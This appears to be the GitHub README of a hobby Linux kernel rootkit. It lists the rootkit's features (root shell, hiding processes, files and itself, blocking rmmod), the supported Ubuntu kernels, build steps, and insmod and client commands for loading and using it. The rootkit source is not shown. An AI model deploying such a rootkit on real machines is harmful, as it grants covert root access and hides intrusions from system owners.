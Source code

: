 #Linux Rootkit

A simple Linux kernel rootkit written for fun.

##Functionality

The rootkit can do the following:

- Grant root priviliges to a userland process
- Hide process by PID
- Unhide a previously hidden process by PID
- Hide files or directories by their name
- Unhide previously hidden files or directories
- Hide itself
- Unhide itself
- Protect against being unloaded by the user
- Disable the unload protection

##Supported Platforms

The rootkit was tested to work on Linux kernels 2.6.32-38 and 4.4.0-22 as provided by Ubuntu in Ubuntu 10.04.4 LTS and Ubuntu 16.04 LTS respectivly.

There is some architecture-specific code in the rootkit, which is implemented only for x86 and x86-64 architectures. This code is not strictly neccessary for the rootkit to function, it can be stripped away with caution, but you must be a very unfun person if you are willing to miss out on overwriting parts of machine code of the existing kernel functions, making them do what you want them to do, or disabling write protected memory pages, overwriting important kernel data structures with your data.

##Build

###Setting Up Enviroment

Warm up your VM of choice.

Grab and install the desired Ubuntu image:

| Kernel / arch |         x86         |        x86-64        |
|:-------------:|:-------------------:|:--------------------:|
|     2.6.32    | [Ubuntu 10.04.4 i386 (694M)](http://old-releases.ubuntu.com/releases/10.04.0/ubuntu-10.04.4-server-i386.iso.torrent) | [Ubuntu 10.04.4 amd64 (681M)](http://old-releases.ubuntu.com/releases/10.04.0/ubuntu-10.04.4-server-amd64.iso.torrent) |
|     4.4.0     |  [Ubuntu 16.04 i386 (647M)](http://releases.ubuntu.com/16.04/ubuntu-16.04-desktop-i386.iso.torrent)  |  [Ubuntu 16.04 amd64 (655M)](http://releases.ubuntu.com/16.04/ubuntu-16.04-server-amd64.iso.torrent)  |

For Ubuntu 10.04, patch the package repository address:

```sh
sed -i -re 's/([a-z]{2}\.)?archive.ubuntu.com|security.ubuntu.com/old-releases.ubuntu.com/g' /etc/apt/sources.list
```

Install a compiler, Linux headers and all other things required for us to build the rootkit:

```sh
apt-get update
apt-get install build-essential
```

###Actual Building

```sh
make
```

##Use

Load rootkit:

```sh
insmod rootkit.ko
```

Use rootkit:

```sh
$ ./client --help
Usage: ./client [OPTION]...

Options:
  --root-shell            Grants you root shell access.
  --hide-pid=PID          Hides the specified PID.
  --unhide-pid=PID        Unhides the specified PID.
  --hide-file=FILENAME    Hides the specified FILENAME globally.
                          Must be a filename without any path.
  --unhide-file=FILENAME  Unhides the specified FILENAME.
  --hide                  Hides the rootkit LKM.
  --unhide                Unhides the rootkit LKM.
  --help                  Print this help message.
  --protect               Protects the rootkit from rmmod.
  --unprotect             Disables the rmmod protection.
```

Unload rootkit:

```sh
./client --unhide
./client --unproect
rmmod rootkit.ko
```

##YOU ARE OUT OF YOUR MIND TO PUBLICY RELEASE SUCH MALICIOUS CODE ONLINE, YOU ARE LITERALLY ARMING SCRIPT KIDDIES WITH NUKES!!!1

Not really, there are many artciles online on how to write a Linux rootkit with the full source code provided, not to mention the countless GitHub repositories.

##License
This project is licensed under [GPLv2](LICENSE).